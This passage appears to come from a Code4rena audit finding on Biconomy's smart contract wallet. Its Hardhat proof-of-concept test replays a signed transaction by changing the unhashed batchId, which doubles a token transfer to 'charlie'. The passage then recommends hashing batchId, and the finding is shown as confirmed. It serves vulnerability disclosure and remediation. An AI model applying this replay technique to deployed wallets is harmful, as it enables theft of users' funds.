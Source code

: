     const transaction: Transaction = {
      to: safeTx.to,
      value: safeTx.value,
      data: safeTx.data,
      operation: safeTx.operation,
      targetTxGas: safeTx.targetTxGas,
    };
    const refundInfo: FeeRefund = {
      baseGas: safeTx.baseGas,
      gasPrice: safeTx.gasPrice,
      tokenGasPriceFactor: safeTx.tokenGasPriceFactor,
      gasToken: safeTx.gasToken,
      refundReceiver: safeTx.refundReceiver,
    };

    let signature = "0x";
    signature += data.slice(2);


    await expect(
      userSCW.connect(accounts[2]).execTransaction(
        transaction,
        0, // batchId
        refundInfo,
        signature
      )
    ).to.emit(userSCW, "ExecutionSuccess");

    //contract checks nonces[batchId] but not batchId itself
    //so we can change batchId to the one that have the same nonce
    //this would replay transaction
    await expect(
      userSCW.connect(accounts[2]).execTransaction(
        transaction,
        1, // changed batchId
        refundInfo,
        signature
      )
    ).to.emit(userSCW, "ExecutionSuccess");

    //charlie would have 20 tokens after this
    expect(await token.balanceOf(charlie)).to.equal(
      ethers.utils.parseEther("20")
    );
    });

### Recommended Mitigation Steps

Add `batchId` to the hash calculation of the transaction in `encodeTransactionData` function.

**[livingrockrises (Biconomy) confirmed](https://github.com/code-423n4/2023-01-biconomy-findings/issues/36#issuecomment-1404370864)**


